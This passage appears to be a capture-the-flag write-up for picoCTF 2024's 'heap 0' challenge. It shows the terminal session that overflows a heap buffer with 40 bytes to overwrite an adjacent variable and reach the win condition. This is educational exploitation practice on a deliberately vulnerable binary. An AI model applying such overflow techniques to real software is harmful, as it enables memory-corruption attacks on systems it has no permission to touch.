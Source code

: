 ### Run the binary locally

Next, we run the binary
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_0]
└─$ ./chall    

Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x556e508826b0  ->   pico
+-------------+----------------+
[*]   0x556e508826d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 
```
The difference between the memory positions is 32 bytes. 

Let's write say 40 bytes of data and see if we can overwrite `safe_var`.
```bash
Enter your choice: 2
Data for buffer: aaaaaaaaaabbbbbbbbbbccccccccccdddddddddd

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x556e508826b0  ->   aaaaaaaaaabbbbbbbbbbccccccccccdddddddddd
+-------------+----------------+
[*]   0x556e508826d0  ->   dddddddd
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
```